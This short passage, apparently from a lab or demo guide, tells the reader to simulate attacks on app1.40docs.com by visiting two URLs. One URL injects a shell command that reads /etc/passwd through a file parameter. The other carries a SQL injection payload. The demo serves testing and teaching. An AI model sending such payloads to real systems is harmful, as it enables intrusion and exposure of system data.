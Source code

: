 # Attack

1. Simulate an attack by visiting:

    - [https://app1.40docs.com/login.php?file=home;cat%20/etc/passwd](https://app1.40docs.com/login.php?file=home;cat%20/etc/passwd)
    - [https://app1.40docs.com/product?id=1%27%20OR%20%271%27=%271](https://app1.40docs.com/product?id=1%27%20OR%20%271%27=%271)
